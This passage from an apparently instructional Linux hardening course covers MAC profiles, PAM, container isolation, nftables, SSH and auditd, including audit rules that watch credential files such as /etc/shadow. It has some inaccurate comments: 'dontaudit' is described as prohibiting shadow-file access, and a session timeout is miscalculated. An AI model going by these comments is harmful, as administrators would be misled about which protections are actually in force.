  - **Enforce**: Violations are blocked and logged to `/var/log/syslog` or `audit.log`.
  - **Complain**: Violations are permitted, but logged as warnings.

```
Example AppArmor Profile Snippet (/etc/apparmor.d/usr.bin.ping):
  /usr/bin/ping {
    # Include base abstractions
    #include <abstractions/base>
    #include <abstractions/nameservice>

    # Granular capability grants
    capability net_raw,
    capability setuid,

    # File access rules
    /usr/bin/ping mr,
    /etc/modules.conf r,
    /dev/null rw,
  }
```

### Administrative Tools:
```bash
aa-status                   # Shows current status of loaded profiles
aa-enforce /etc/apparmor.d/* # Puts all profiles into Enforce mode
aa-complain /usr/sbin/nginx  # Puts Nginx into Complain mode
aa-logprof                  # Interactive CLI tool to update profiles from audit logs
```

---
---

## 11.5 Writing Custom SELinux Type Enforcement Policies

When deploying custom internal microservices or commercial applications that fail under SELinux Enforcing mode, administrators must not disable SELinux. Instead, they author custom Type Enforcement policy modules (`.te`).

### Structure of a Type Enforcement File (`mydaemon.te`)
```
policy_module(mydaemon, 1.0.0)

# Type declarations
type mydaemon_t;
type mydaemon_exec_t;
init_daemon_domain(mydaemon_t, mydaemon_exec_t)

# Define private data file type
type mydaemon_data_t;
files_type(mydaemon_data_t)

# Allow rules (Subject Domain -> Object Type : Class { Permissions })
allow mydaemon_t mydaemon_data_t : file { read write create getattr open };
allow mydaemon_t mydaemon_data_t : dir { search write add_name };

# Allow network binding to non-standard HTTP port (e.g., 8080)
allow mydaemon_t http_port_t : tcp_socket { name_bind };

# Explicitly prohibit access to sensitive system shadow file
dontaudit mydaemon_t shadow_t : file { read getattr };
```

### Compiling and Installing SELinux Modules
```bash
# 1. Compile policy into an intermediate module (.mod)
checkmodule -M -m -o mydaemon.mod mydaemon.te

# 2. Package module into a policy package (.pp)
semodule_package -o mydaemon.pp -m mydaemon.mod

# 3. Insert policy package into running Linux kernel
semodule -i mydaemon.pp

# 4. Verify loaded policy
semodule -l | grep mydaemon
```

---

# Module 12: Linux User Authentication, Credentials & PAM

## 12.1 Linux Credential Storage: `/etc/passwd` vs. `/etc/shadow`

User account management and credential verification in Linux are decoupled between public user identification and private cryptographic credential storage.

```
/etc/passwd Entry Format (World-Readable: 0644):
  username:password_placeholder:UID:GID:GECOS:home_directory:login_shell
  root:x:0:0:root:/root:/bin/bash
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Because `/etc/passwd` must be globally world-readable for system utilities to map numeric UIDs to usernames (e.g., `ls -l`), storing password hashes in `/etc/passwd` permitted unprivileged users to read hashes and conduct offline dictionary cracking.

To resolve this vulnerability, modern Linux systems deploy the **Shadow Password Suite** (`/etc/shadow`), which is restricted to read-only access by `root` (permissions `0640` or `0000`, owned by `root:shadow`).

```mermaid
graph TD
    subgraph Shadow_Entry_Anatomy["Anatomy of an /etc/shadow Record"]
        direction TB
        
        Raw["alice : $6$rounds=5000$saltsalt$hashedpassword... : 19720 : 0 : 90 : 7 : : :"]
        
        Field1["1. Username (alice)"]
        Field2["2. Hashed Password ($ID$Salt$Hash)"]
        Field3["3. Last Password Change (Days since Jan 1, 1970)"]
        Field4["4. Minimum Password Age (Days before user can change)"]
        Field5["5. Maximum Password Age (Days before password expires)"]
        Field6["6. Warning Period (Days warning user before expiry)"]
        Field7["7. Inactivity Period (Days after expiry before account disabled)"]
        Field8["8. Account Expiration Date (Days since epoch when account dies)"]
        
        Raw --- Field1 --- Field2 --- Field3 --- Field4 --- Field5 --- Field6 --- Field7 --- Field8
    end
    
    style Shadow_Entry_Anatomy fill:#f9f9f9,stroke:#34495e,stroke-width:2px;
    style Field2 fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```

### Cryptographic Hash Identifier Prefixes (`$ID$`)
The second field of `/etc/shadow` encodes the hashing algorithm, the random cryptographic salt (preventing Rainbow table attacks), and the resulting one-way hash:

| Prefix ID | Hashing Algorithm | Security Assessment | Key Derivation Iterations |
| :---: | :--- | :--- | :--- |
| **`$1$`** | **MD5-crypt** | **BROKEN / INSECURE**. Vulnerable to collision attacks and ultra-fast GPU cracking. | 1,000 iterations (Fixed) |
| **`$2a$` / `$2b$`** | **Bcrypt** | **SECURE**. Memory-hard Blowfish-based key derivation. | Configurable cost factor |
| **`$5$`** | **SHA-256-crypt** | **SECURE**. Standard NIST algorithm. | 5,000 iterations (Configurable) |
| **`$6$`** | **SHA-512-crypt** | **HIGHLY SECURE**. Linux default standard for over a decade. | 5,000 iterations (Configurable) |
| **`$y$`** | **Yescrypt** | **MODERN STATE-OF-THE-ART**. Native memory-hard function resistant to FPGA/ASIC password cracking rigs. | Modern default in Debian 11+ and RHEL 9+ |

---

## 12.2 Pluggable Authentication Modules (PAM) Architecture

Historically, every program requiring user authentication (e.g., `login`, `su`, `sshd`, `ftp`) hardcoded its own authentication routines. Altering authentication schemes (such as integrating LDAP, smart cards, or biometric tokens) required re-compiling every application from source code.

**Pluggable Authentication Modules (PAM)** decouples user-facing applications from underlying authentication technologies via a modular, dynamic framework configured in `/etc/pam.d/`.

```mermaid
graph TD
    subgraph PAM_Architecture_Stack["Pluggable Authentication Modules (PAM) Processing Pipeline"]
        direction TB
        
        App["Application Requiring Authentication (e.g., /usr/sbin/sshd, /bin/su)"]
        API["PAM API: pam_authenticate(), pam_acct_mgmt()"]
        Config["Service Configuration: /etc/pam.d/sshd"]
        
        subgraph PAM_Stacks["The Four Independent PAM Management Groups"]
            Auth["1. auth Stack<br/>Verifies User Identity (Prompts for Password, MFA Token)"]
            Acct["2. account Stack<br/>Verifies Account Status (Expiry, Day/Time Restrictions, Locked)"]
            Pass["3. password Stack<br/>Handles Credential Updates (Complexity, Minimum Age, History)"]
            Sess["4. session Stack<br/>Configures Environment (Mounts Home Dir, Sets Ulimits, Auditing)"]
        end
        
        App --> API --> Config
        Config --> Auth
        Config --> Acct
        Config --> Pass
        Config --> Sess
    end
    
    style PAM_Architecture_Stack fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Auth fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Acct fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Pass fill:#f4ecf7,stroke:#8e44ad,stroke-width:2px;
    style Sess fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### The Four PAM Management Groups
1. **`auth`**: Authenticates the user and establishes credentials (e.g., querying password, validating hardware security key).
2. **`account`**: Determines whether the authenticated user is allowed to access the system right now (checks whether the account is disabled, expired, or prohibited by time-of-day policies).
3. **`password`**: Enforces password changing policies and password strength rules.
4. **`session`**: Tasks executed before and after user access is granted (e.g., mounting encrypted directories, setting resource limits in `/etc/security/limits.conf`, logging login records in `wtmp`).

### The Four Control Flags

| Control Flag | Behavior on Module Success | Behavior on Module Failure |
| :--- | :--- | :--- |
| **`required`** | Success recorded. Pipeline continues executing subsequent modules. | Failure recorded. Pipeline **must continue** executing subsequent modules (to prevent attackers from timing which specific check failed), but overall authentication will ultimately fail. |
| **`requisite`** | Success recorded. Pipeline continues executing subsequent modules. | Immediate failure! Pipeline **aborts immediately**, rejecting user without executing remaining modules. |
| **`sufficient`** | If no earlier `required` modules failed, pipeline **terminates immediately with SUCCESS**! | Failure recorded, but ignored; pipeline continues executing. |
| **`optional`** | Success recorded. Only determines outcome if it is the only module in the stack. | Ignored unless it is the only module in the stack. |

---

## 12.3 Hardening Authentication: Account Lockout & Password Complexity

Modern enterprise Linux configurations mandate strict brute-force mitigations and entropy enforcement via specialized PAM modules.

### 1. Brute-Force Defense via `pam_faillock`
Protects against offline and online credential stuffing by locking user accounts after a defined threshold of consecutive failed authentication attempts:
```
# /etc/pam.d/password-auth or system-auth configuration:
auth     required  pam_faillock.so preauth silent audit deny=5 unlock_time=900
auth     sufficient pam_unix.so try_first_pass
auth     [default=die] pam_faillock.so authfail audit deny=5 unlock_time=900
account  required  pam_faillock.so
```
- `deny=5`: Locks the account after 5 consecutive failures.
- `unlock_time=900`: Account remains locked for 15 minutes (900 seconds).

### 2. Password Quality Enforcement via `pam_pwquality`
Rejects weak or dictionary passwords during password changes:
```ini
# /etc/security/pwquality.conf
minlen = 14          # Minimum password length: 14 characters
dcredit = -1         # At least 1 digit required
ucredit = -1         # At least 1 uppercase letter required
lcredit = -1         # At least 1 lowercase letter required
ocredit = -1         # At least 1 special character required
difok = 5            # At least 5 characters must differ from old password
maxrepeat = 2        # No character repeated more than twice consecutively
```

---
---

## 12.4 Enterprise MFA Integration: PAM Google Authenticator Hardening

To enforce Multi-Factor Authentication (MFA) across SSH and local logins, Linux integrates Time-Based One-Time Password (TOTP, RFC 6238) engines:

```bash
# 1. Install Google Authenticator PAM engine
apt-get install libpam-google-authenticator -y

# 2. User initialization (generates QR code and emergency scratch codes)
google-authenticator -t -d -f -r 3 -R 30 -W

# 3. Configure /etc/pam.d/sshd:
# Prepend TOTP module to authentication stack:
auth required pam_google_authenticator.so nullok

# 4. Configure /etc/ssh/sshd_config:
KbdInteractiveAuthentication yes
AuthenticationMethods publickey,keyboard-interactive
```
When authenticating, the user must present BOTH a valid cryptographic SSH private key AND a 6-digit TOTP code generated on their hardware token or smartphone app.

---

# Module 13: Linux Process Isolation: Namespaces, Cgroups, Seccomp & Capabilities

## 13.1 Container Isolation Building Blocks: Namespaces & Cgroups

In modern cloud-native architectures (Docker, Kubernetes, Podman), **containers are not virtual machines**. Containers are simply standard Linux user-space processes isolated at the kernel level using two foundational technologies:
1. **Linux Kernel Namespaces**: Governs **what a process can SEE** (Virtualization of system resources).
2. **Control Groups (cgroups)**: Governs **how much a process can USE** (Resource metering and throttling).

```mermaid
graph TD
    subgraph Container_Isolation_Architecture["Linux Container Isolation Architecture"]
        direction TB
        
        subgraph Namespaces["Linux Kernel Namespaces (Resource Views)"]
            PID_NS["PID Namespace (Process Isolation: PID 1 inside container)"]
            NET_NS["Network Namespace (Virtual Interfaces, Routing Tables, Sockets)"]
            MNT_NS["Mount Namespace (Isolated Filesystem Root / Pivot Root)"]
            IPC_NS["IPC Namespace (Isolated Shared Memory & Message Queues)"]
            UTS_NS["UTS Namespace (Isolated Hostname & Domain Name)"]
            USER_NS["User Namespace (Maps Container Root UID 0 to Host UID 100000!)"]
        end
        
        subgraph Cgroups["Control Groups - cgroups v2 (Resource Throttling)"]
            CPU_Limit["CPU: Max 2 Cores / Quota Throttling"]
            MEM_Limit["Memory: Max 2GB / OOM Killer Enforcement"]
            IO_Limit["I/O: Max 50 MB/s BlkIO Throughput"]
            PID_Limit["pids.max: Max 100 PIDs (Mitigates Fork Bombs!)"]
        end
        
        subgraph Sandboxed_Process["Confined Container Workload"]
            App["Microservice Application Process"]
        end
        
        Namespaces --- App
        Cgroups --- App
    end
    
    style Container_Isolation_Architecture fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Namespaces fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Cgroups fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style App fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

---

## 13.2 The Seven Core Linux Namespaces

| Namespace Flag | Virtualized Resource | Security Impact & Isolation Boundary |
| :---: | :--- | :--- |
| **`CLONE_NEWPID`** | Process IDs | Processes inside the container only see themselves. The containerized entry point executes as PID 1, unable to inspect or send signals (`kill`) to host processes. |
| **`CLONE_NEWNET`** | Network Stacks | Provides a private loopback interface, virtual Ethernet pair (`veth`), independent routing tables, and private port namespaces. |
| **`CLONE_NEWNS`** | Mount Points | Provides a private filesystem hierarchy. Changes to mount tables inside do not reflect on the host. |
| **`CLONE_NEWIPC`** | Inter-Process Comm | Isolates System V IPC and POSIX message queues, preventing cross-container shared memory tapping. |
| **`CLONE_NEWUTS`** | Hostname / Domain | Allows container to define its own hostname without modifying host system identity. |
| **`CLONE_NEWUSER`** | User & Group IDs | **Crucial for rootless containers**. Maps container UID 0 (root inside) to an unprivileged UID (e.g., UID 100000) on the host. Even if container escapes, it holds zero host root privileges! |
| **`CLONE_NEWCGROUP`**| Cgroup Hierarchy | Masks the root cgroup directory structure, preventing container introspection of host system resource allocations. |

---

## 13.3 Linux Capabilities: Decomposing the Omnipotent Root

Traditionally, Linux enforced a binary permission model: a process was either an unprivileged standard user (`UID != 0`) or the omnipotent superuser (`UID == 0`). If an application needed to bind to privileged port 80 (e.g., web server) or set system time, it had to run with full root privileges.

**Linux Capabilities** (introduced in kernel 2.2) decompose the monolithic powers of `root` into distinct, granular privileges:

```
Common Critical Linux Capabilities:
  CAP_NET_BIND_SERVICE:  Bind a socket to Internet domain privileged ports (< 1024).
  CAP_NET_RAW:           Permits using RAW and PACKET sockets (ping, tcpdump).
  CAP_SYS_ADMIN:         Overpowered "catch-all" capability (mount filesystems, load BPF).
  CAP_SYS_PTRACE:        Trace arbitrary processes using ptrace (can read memory of other apps).
  CAP_DAC_OVERRIDE:      Bypass all file read, write, and execute permission checks.
  CAP_CHOWN:             Make arbitrary changes to file UIDs and GIDs.
```

### Restricting Capabilities on Binaries
Rather than setting the dangerous `SUID root` bit on a binary, administrators grant only the specific capability required:
```bash
# Removing SUID from ping and granting only CAP_NET_RAW:
chmod u-s /usr/bin/ping
setcap cap_net_raw+ep /usr/bin/ping

# Inspecting capabilities:
getcap /usr/bin/ping
# Output: /usr/bin/ping = cap_net_raw+ep
```

---

## 13.4 Seccomp & Seccomp-BPF (Secure Computing Mode)

The Linux kernel exposes over 400 distinct **system calls** (syscalls). The vast majority of user applications require only a tiny fraction (e.g., 30 to 40 syscalls like `read`, `write`, `epoll_wait`). Unused system calls (such as `ptrace`, `bpf`, `mount`, `kexec_load`) represent latent attack surface for kernel exploitation.

**Seccomp-BPF** allows a user process to define a stateful Berkeley Packet Filter (BPF) program that inspects system call numbers and arguments *before* the kernel dispatches them.

```mermaid
graph TD
    subgraph Seccomp_BPF_Pipeline["Seccomp-BPF System Call Filtering Pipeline"]
        direction TB
        
        AppSyscall["Process issues System Call: sys_ptrace()"]
        BPF_Filter["Seccomp-BPF Filter Engine in Linux Kernel"]
        
        AppSyscall --> BPF_Filter
        
        Decision{"Matches Allowed Syscall Whitelist?"}
        BPF_Filter --> Decision
        
        Decision -->|ALLOWED (e.g., read, write)| ExecSyscall["Kernel Executes System Call"]
        Decision -->|DENIED / PROHIBITED| Action{"Configured Seccomp Action"}
        
        Action -->|SECCOMP_RET_KILL_PROCESS| Kill["Kernel Instantly Terminates Process (SIGSYS)"]
        Action -->|SECCOMP_RET_ERRNO| ReturnErr["Returns -EPERM to Process without executing"]
    end
    
    style Seccomp_BPF_Pipeline fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style BPF_Filter fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style ExecSyscall fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
    style Kill fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```

---
---

## 13.5 Building a Container from Scratch using Linux Primitives

To demystify containerization, one can instantiate a fully isolated container using core Linux kernel system commands without Docker:

```bash
#!/usr/bin/env bash
# Building a minimal isolated Linux container from scratch

ROOTFS="/tmp/my_container_rootfs"
CGROUP_DIR="/sys/fs/cgroup/demo_container"

# 1. Create Control Group (cgroups v2) and enforce limits
mkdir -p "$CGROUP_DIR"
echo "50000 100000" > "$CGROUP_DIR/cpu.max"       # Limit to 0.5 CPU core
echo "104857600"      > "$CGROUP_DIR/memory.max"    # Limit to 100 MB RAM
echo "20"             > "$CGROUP_DIR/pids.max"      # Max 20 processes

# 2. Execute workload in private PID, Network, Mount, UTS, and IPC Namespaces
# unshare isolates namespaces, pivot_root isolates filesystem
unshare --mount --uts --ipc --net --pid --fork bash -c "
    # Assign process to cgroup
    echo \$\$ > $CGROUP_DIR/cgroup.procs

    # Set private hostname
    hostname containerized-secure-host

    # Mount private /proc inside container mount namespace
    mount -t proc proc /proc

    # Execute isolated container shell
    exec /bin/sh
"
```

---

# Module 14: Linux Network Defense, Auditing & Exploit Hardening

## 14.1 The Netfilter Packet Filtering Architecture: iptables vs. nftables

At the heart of Linux network defense resides **Netfilter**, a framework inside the Linux kernel providing callback hooks across the network stack for packet filtering, Network Address Translation (NAT), and connection tracking.

```mermaid
graph TD
    subgraph Netfilter_Packet_Flow["Netfilter Architecture & Packet Traversing Hooks"]
        direction TB
        
        NIC_In["Network Interface (Packet Ingress)"] --> Pre["1. PREROUTING Hook<br/>(DNAT, Raw, Mangle)"]
        
        Routing1{"Routing Decision:<br/>Is Packet for Local Host?"}
        Pre --> Routing1
        
        Routing1 -->|YES: Local Destination| Input["2. INPUT Hook<br/>(Filter: Inbound Firewall Rules)"]
        Routing1 -->|NO: Forward to Other Host| Forward["3. FORWARD Hook<br/>(Filter: Routed / Gateway Traffic)"]
        
        Input --> LocalProc["Local Socket / Application Process"]
        LocalProc --> Output["4. OUTPUT Hook<br/>(Filter: Outbound Host Traffic)"]
        
        Output --> Routing2["Routing Decision"]
        Routing2 --> Post["5. POSTROUTING Hook<br/>(SNAT / Masquerade)"]
        Forward --> Post
        
        Post --> NIC_Out["Network Interface (Packet Egress)"]
    end
    
    style Netfilter_Packet_Flow fill:#f9f9f9,stroke:#34495e,stroke-width:2px;
    style Pre fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Input fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Output fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Post fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### 1. iptables Architecture
- **Tables**:
  - `filter`: Default table for packet filtering (Chains: `INPUT`, `OUTPUT`, `FORWARD`).
  - `nat`: Network address translation (Chains: `PREROUTING`, `POSTROUTING`, `OUTPUT`).
  - `mangle`: Packet header alteration (TTL, TOS).
  - `raw`: Bypasses connection tracking (`conntrack`).
- **Connection Tracking (`conntrack`)**:
  - Enables stateful inspection. Packets are tagged as:
    - `NEW`: Initiating a connection.
    - `ESTABLISHED`: Part of an existing verified connection.
    - `RELATED`: Auxiliary connection (e.g., FTP data channel).
    - `INVALID`: Packets with illegal flag combinations.

### 2. nftables: The Modern Linux Standard
Replaces legacy `iptables`, `ip6tables`, `arptables`, and `ebtables` with a single unified packet filtering engine executing an in-kernel bytecode virtual machine:
- Eliminates duplicated rules across IPv4 and IPv6 via the unified `inet` address family.
- Atomic rule replacement: Multiple rules commit simultaneously without connection interruption.

```bash
# Example Modern nftables Production Firewall Configuration:
table inet firewall {
    chain inbound {
        type filter hook input priority filter; policy drop;

        # Allow established and related traffic
        ct state { established, related } accept

        # Drop invalid packets immediately
        ct state invalid drop

        # Allow local loopback traffic
        iif "lo" accept

        # Allow incoming ICMP (ping) rate-limited
        ip protocol icmp limit rate 5/second accept

        # Allow SSH (Port 22)
        tcp dport 22 accept
    }
}
```

---

## 14.2 Secure Shell (SSH) Host Hardening

SSH is the primary remote administrative interface for Linux infrastructure, making it an unceasing target for brute-force dictionary attacks and credential spraying.

```ini
# Production Hardened /etc/ssh/sshd_config Configuration:
Port 22
Protocol 2

# Authentication Hardening
PermitRootLogin no                   # Prohibit direct root login (force su/sudo)
MaxAuthTries 3                       # Disconnect client after 3 failed attempts
PubkeyAuthentication yes             # Enforce Public Key Authentication
PasswordAuthentication no            # DISABLE all password authentication!
PermitEmptyPasswords no              # Reject empty passwords
AuthenticationMethods publickey      # Require asymmetric key

# Cryptographic Suite Hardening (Prohibit broken legacy ciphers)
KexAlgorithms curve25519-sha256,diffie-hellman-group16-sha512
Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
MACs hmac-sha2-512-etm@openssh.com

# Channel & Forwarding Restrictions
X11Forwarding no                     # Disable X11 GUI forwarding
AllowTcpForwarding no                # Prevent SSH from acting as a network proxy
ClientAliveInterval 300              # Terminate idle sessions after 15 minutes
ClientAliveCountMax 2
```

---

## 14.3 The Linux Auditing Framework (`auditd`)

While log files in `/var/log/` record application-level messages, attackers with local privileges can modify or truncate logs. The **Linux Audit Framework (`auditd`)** is deeply integrated into kernel system call entrypoints, recording tamper-resistant audit records directly to disk.

```mermaid
graph LR
    subgraph Audit_Architecture["Linux Audit Subsystem Pipeline"]
        direction LR
        Kernel["Kernel Syscall / Event Engine<br/>(kauditd)"] --> Netlink["Netlink Socket<br/>(NETLINK_AUDIT)"]
        Netlink --> Daemon["auditd Daemon<br/>(User-Space Collector)"]
        Daemon --> LogFile["/var/log/audit/audit.log<br/>(Immutable Log Storage)"]
        LogFile --> Tools["Analysis Tools:<br/>• ausearch (Event query)<br/>• aureport (Summary stats)"]
    end
    
    style Audit_Architecture fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Kernel fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Daemon fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Tools fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### Essential Audit Rules (`/etc/audit/rules.d/audit.rules`)
```bash
# Monitor changes to critical user/group identity files:
-w /etc/passwd -p wa -k identity_changes
-w /etc/shadow -p wa -k identity_changes
-w /etc/sudoers -p wa -k privilege_changes

# Monitor execution of the execve system call by non-root users (UID >= 1000):
-a always,exit -F arch=b64 -S execve -F auid>=1000 -F auid!=4294967295 -k user_commands

# Make audit rules immutable until next system reboot:
-e 2
```

---

## 14.4 Linux Kernel Exploit Mitigations & Sysctl Hardening

Modern Linux kernels incorporate defense-in-depth compile-time and runtime exploit mitigations that eliminate whole classes of memory corruption vulnerabilities:

```
Linux Kernel Memory Exploit Mitigations:
+---------------------------------------------------------------------------------+
| Mitigation Mechanism | Architectural Purpose & Implementation                   |
+----------------------+----------------------------------------------------------+
| KASLR                | Kernel Address Space Layout Randomization                |
|                      | Randomizes base physical/virtual location of kernel text |
| Stack Canaries (SSP) | Inserts random guard value before Saved EBP/RIP.         |
|                      | Compiler emits __stack_chk_fail on mismatch.            |
| DEP / NX             | Data Execution Prevention / No-Execute bit in page tables|
|                      | Marks Stack and Heap as Non-Executable (PAGE_NOEXEC)    |
| KPTI                 | Kernel Page Table Isolation                              |
|                      | Unmaps kernel address space while running in user mode   |
|                      | (Mitigates Meltdown speculative execution side-channels) |
| Yama ptrace_scope    | Restricts ptrace system call to parent processes only    |
+---------------------------------------------------------------------------------+
```

### Essential Production Sysctl Hardening (`/etc/sysctl.d/99-security.conf`)
```ini
# Restrict dmesg kernel log buffer access to root only (prevents KASLR address leaks)
kernel.dmesg_restrict = 1

# Restrict ptrace memory inspection to parent processes only
kernel.yama.ptrace_scope = 2

# Hide exposed kernel pointers in /proc/kallsyms
kernel.kptr_restrict = 2

# Enable TCP SYN Cookies (DoS Defense)
net.ipv4.tcp_syncookies = 1

# Disable ICMP Echo redirects (Mitigates MITM routing attacks)
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0

# Enable Reverse Path Filtering (Mitigates IP address spoofing)
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1
```

---
---

## 14.5 Complete Production Linux Hardening Blueprint (CIS Benchmark)

To achieve enterprise compliance (CIS Linux Benchmark, PCI-DSS, DoD STIG), production Linux hosts must apply a layered defense blueprint:

```mermaid
graph TD
    subgraph Linux_Defense_In_Depth["Layered Linux Host Security Architecture"]
        direction TB
        
        L1["1. Network Boundary: nftables Firewall & Rate Limiting"]
        L2["2. Remote Access: Hardened OpenSSH (Keys Only, No Root, MFA)"]
        L3["3. Authentication: PAM faillock & pwquality Enforcement"]
        L4["4. Kernel Hardening: sysctl Restrictions (ASLR, dmesg, kptr)"]
        L5["5. Mandatory Access Control: SELinux Enforcing Mode"]
        L6["6. Workload Isolation: Namespaces, cgroups v2, Seccomp Whitelists"]
        L7["7. Audit & Detection: auditd Syscall Monitoring & AIDE File Integrity"]
        
        L1 --> L2 --> L3 --> L4 --> L5 --> L6 --> L7
    end
    
    style Linux_Defense_In_Depth fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style L1 fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style L3 fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style L5 fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
    style L7 fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```

### Complete Production `nftables.conf` Script (`/etc/nftables.conf`)
```
#!/usr/sbin/nft -f

flush ruleset

table inet filter {
    # Rate limit table for brute-force SSH mitigation
    set ssh_flood {
        type ipv4_addr
        flags dynamic
        timeout 1m
    }

    chain input {
        type filter hook input priority filter; policy drop;

        # Accept loopback traffic
        iif "lo" accept

        # Accept established and related connection states
        ct state established,related accept

        # Drop invalid connection states immediately
        ct state invalid drop

        # Defend against ICMP floods: accept ping rate-limited to 5/sec
        ip protocol icmp icmp type echo-request limit rate 5/second accept
        ip6 nexthdr icmpv6 icmpv6 type echo-request limit rate 5/second accept

        # Defend against TCP SYN flood: rate-limit TCP SYN flags
        tcp flags & (fin|syn|rst|ack) == syn limit rate 25/second burst 50 packets accept

        # Secure SSH access with automated brute-force rate-limiting
        tcp dport 22 ct state new update @ssh_flood { ip saddr limit rate over 4/minute } drop
        tcp dport 22 ct state new accept

        # Allow Web HTTPS traffic
        tcp dport { 80, 443 } accept

        # Log all dropped traffic to syslog with rate limiting
        limit rate 5/minute log prefix "NFT_IN_DROP: " drop
    }

    chain forward {
        type filter hook forward priority filter; policy drop;
    }

    chain output {
        type filter hook output priority filter; policy accept;
    }
}
```

### Complete Hardened `audit.rules` (`/etc/audit/rules.d/audit.rules`)
```
# Delete all existing rules
-D

# Set buffer size
-b 8192

# Failure mode: 1 = printk alert, 2 = kernel panic (for ultra-high security)
-f 1

# Monitor system reboot and power transitions
-a always,exit -F arch=b64 -S reboot,shutdown,poweroff -k system_power

# Monitor unauthorized access attempts to files (EACCES / EPERM)
-a always,exit -F arch=b64 -S open,openat,creat -F exit=-EACCES -k file_access_denied
-a always,exit -F arch=b64 -S open,openat,creat -F exit=-EPERM -k file_access_denied

# Monitor modification of system administrator identity & authentication
-w /etc/group -p wa -k identity_changes
-w /etc/passwd -p wa -k identity_changes
-w /etc/gshadow -p wa -k identity_changes
-w /etc/shadow -p wa -k identity_changes
-w /etc/security/opasswd -p wa -k identity_changes
-w /etc/sudoers -p wa -k sudoers_changes
-w /etc/sudoers.d/ -p wa -k sudoers_changes

# Monitor modification of network environment and firewall rules
-w /etc/issue -p wa -k network_config
-w /etc/issue.net -p wa -k network_config
-w /etc/hosts -p wa -k network_config
-w /etc/network/ -p wa -k network_config
-w /etc/nftables.conf -p wa -k firewall_changes

# Lock audit configuration permanently until system reboot
-e 2
```

---

# Module 15: Master Technical Glossary & Comprehensive Acronym Index

## 15.1 Master Cyber Security & Linux Technical Glossary

- **Access Control Entry (ACE)**: An individual record within an Access Control List (ACL) granting or denying specific access permissions to a specified trustee (user or group).
- **Access Control List (ACL)**: An ordered collection of Access Control Entries accompanying a file, directory, or object that defines access rights for users and groups.
- **Access Vector Cache (AVC)**: The high-speed kernel lookup cache in SELinux that stores recent security policy decisions to accelerate system call performance.
- **Address Space Layout Randomization (ASLR)**: An exploit mitigation technique that randomizes the memory addresses of program execution components (stack, heap, shared libraries), preventing attackers from jumping to fixed payload addresses.
- **AppArmor**: A Linux Security Module providing path-based Mandatory Access Control, confining programs based on profiles configured in `/etc/apparmor.d/`.
- **Botnet**: A network of compromised computers or devices (bots) controlled remotely by a cyber adversary (botmaster) through a Command and Control (C2) infrastructure.
- **Control Groups (cgroups)**: A Linux kernel feature providing resource allocation, prioritization, accounting, and throttling (CPU, memory, disk I/O, network) for groups of processes.
- **Data Execution Prevention (DEP / NX)**: A hardware-enforced or software mitigation that marks memory pages (such as stack and heap) as non-executable, preventing code execution from data segments.
- **Direct Kernel Object Manipulation (DKOM)**: An advanced kernel-mode rootkit technique that alters internal kernel data structures directly in memory (e.g., unlinking an `EPROCESS` block from the active process list) to hide artifacts without modifying code.
- **Discretionary Access Control (DAC)**: An access policy where resource owners possess the architectural discretion to grant or deny access rights to other subjects.
- **Fast-Flux DNS**: A DNS evasion technique where the IP addresses associated with a Fully Qualified Domain Name rapidly cycle across thousands of compromised hosts with extremely short TTL values.
- **Format String Vulnerability**: A software vulnerability occurring when untrusted user input is passed as the format argument to variadic C output functions, enabling arbitrary memory reading and writing via `%x` and `%n`.
- **Import Address Table (IAT)**: A memory lookup structure within Portable Executable (PE) files holding runtime function pointers to external Dynamic Link Libraries.
- **Linux Capabilities**: Distinct privilege units that decompose the omnipotent authority of the traditional UNIX root user into independent, granular slices.
- **Linux Security Modules (LSM)**: A framework inside the Linux kernel allowing security extensions (SELinux, AppArmor, Smack) to register hooks across critical system call paths.
- **Mandatory Access Control (MAC)**: A centrally administered security policy enforced by the operating system kernel that cannot be altered or bypassed by individual resource owners or the root user.
- **Namespaces**: A Linux kernel technology providing virtualized abstractions of global system resources (PIDs, Mount points, Network stacks, IPC, UTS, UIDs) to isolated process groups.
- **Netfilter**: The packet-filtering framework embedded within the Linux kernel providing hooks (`PREROUTING`, `INPUT`, `FORWARD`, `OUTPUT`, `POSTROUTING`) for firewall rules and NAT.
- **Pluggable Authentication Modules (PAM)**: A flexible modular authentication architecture on UNIX/Linux systems enabling administrators to alter authentication policies without modifying client binaries.
- **Reflective DLL Injection**: A stealth DLL injection technique where a DLL manually maps its own sections and executes relocations directly from memory without calling `LoadLibrary` or leaving disk artifacts.
- **Rootkit**: Stealth malware designed to conceal malicious processes, network sockets, and files from operating system APIs and monitoring utilities.
- **Seccomp (Secure Computing Mode)**: A Linux security facility that restricts the allowable system calls a process can issue to the kernel, reducing kernel exploit surface.
- **Security Context (SELinux)**: The immutable security label formatted as `user:role:type:level` assigned to every process and object under SELinux.
- **Security Identifier (SID)**: A variable-length unique binary string identifying security principals (users, groups, computers) in Microsoft Windows.
